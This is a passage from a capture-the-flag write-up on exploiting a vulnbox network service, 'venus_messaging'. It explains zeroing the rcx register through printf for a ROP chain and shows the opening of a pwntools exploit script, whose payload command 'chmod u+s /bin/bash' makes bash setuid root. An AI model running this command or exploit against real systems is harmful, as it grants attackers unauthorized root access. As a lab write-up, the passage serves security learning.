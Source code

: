 This is where I burned most of my time.  `ropper` and poring over the disassembly reviled no easy `rcx` gadgets.  My first thought was to get it for free since `send` before the `return` at the end sets `rcx` to zero, however after `send` returns, `rcx` is no longer zero.

If `rcx` was being set internally by `send`, could other functions in the GOT (that I get to call for free) also set `rcx` or better yet, reset `rcx` (zero)?

Yes.  After setting a breakpoint at `main` and just going through line by line, function by function, `printf` surfaced as a winner.  On return, `printf` resets `rcx` to zero.  _`printf` FTW!_

We have all the bits we need. 


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./venus_messaging')

if args.REMOTE:
    #p = remote('172.19.2.239',9080)
    #port blocked? workaround: ssh -L 9080:localhost:9080 magellan@172.19.2.239
    p = remote('localhost',9080)
    libc = ELF('./libc.so.6')
else:
    p = remote('localhost',9080)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

command = b'chmod u+s /bin/bash'
fd = 0x4 # may need BF

p.sendlineafter(b'password:', b'loveandbeauty')
```

Above is just the standard pwntools header for remote and local test/dev.

When I tested with the vulnbox I could not access port `9080` (see `main` in Ghidra for the port number) outside of the vulnbox, `netstat` indicated it was listening on all interfaces, but I was too lazy to troubleshoot it, so just used ssh port forwarding.

The `command` is the remote command we want to run as root.  Above is what I used to setuid root `/bin/bash`.

`fd` is the file descriptor returned from `accept` (see `main` in Ghidra).  It was consistently `0x4` when testing locally (and remotely), so I hardcoded it.  With many of these CTF-type of challenges the file descriptors are constant; `0`, `1`, `2` are usually setup for stdin/stdout/stderr, so the next that will be assigned will be `3`, and it is usually `3`, but in this case it was `4`--just keep incrementing until it works for you.  And if it does change, well then, you either need to get lucky or put in the work to leak the file descriptor as well.

> Looks like `3` was for the socket:
> 
> ```
> lrwx------ 1 root root 64 Jul 23 21:33 0 -> /dev/pts/1
> lrwx------ 1 root root 64 Jul 23 21:33 1 -> /dev/pts/1
> lrwx------ 1 root root 64 Jul 23 21:33 2 -> /dev/pts/1
> lrwx------ 1 root root 64 Jul 23 21:33 3 -> 'socket:[2990878]'
> ```
